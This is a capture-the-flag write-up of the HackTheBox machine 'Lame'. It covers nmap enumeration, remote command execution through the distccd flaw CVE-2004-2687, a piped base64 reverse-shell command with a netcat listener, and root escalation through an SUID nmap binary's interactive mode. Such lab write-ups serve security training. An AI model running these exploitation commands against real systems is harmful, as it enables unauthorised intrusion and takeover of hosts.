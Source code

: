 ```yaml
---
description: Lame box from HackTheBox write up.
---
```


# Lame

## Nmap scan

As usual let's start with `nmap`:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p- --min-rate 1000 -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 17:49 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.050s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 104.17 seconds
           Raw packets sent: 131147 (5.770MB) | Rcvd: 84 (3.680KB)
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -p21,22,139,445,3632 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 17:53 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.050s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m31s, deviation: 2h49m43s, median: 30s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-09-07T17:54:09-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.46 seconds
```

So we have SSH, FTP, Samba and `distccd`. That last service is used to send code to be compiled in another computer, I think we can start with it.

## Distccd

Let's check if it is vulnerable to CVE-2004-2687:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 3632 <MACHINE_IP> --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='id'"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 18:00 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

In fact it is! We have RCE, that was fast. Next step is to get a shell.

### Reverse shell

I just `base64` encoded a Python reverse shell payload and used an [implementation of the vulnerability in Python](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855){:target="_blank"} to send it:

```bash
./CVE-2004-2687.py -t <MACHINE_IP> -p 3632 -c "echo <BASE64_REVSHELL> | base64 -d | bash"
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.48] from (UNKNOWN) [<MACHINE_IP>] 44031
sh: no job control in this shell
sh-3.2$
```

The user flag is under `/home/makis/user.txt`

## Privilege escalation

Once in the box we can start checking for escalation vectors. After some digging i found that the `nmap` binary has the SUID bit set and is owned by root:

```bash
daemon@lame:/$ find / -perm /4000 2> /dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
daemon@lame:/$ ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

To abuse this, we can simply execute `nmap --interactive` and then execute a system command. That system command will be executed as `root` so we can become `root` now:

```bash
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-3.2# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
bash-3.2# 
```

The root flag is under `/root/root.txt`.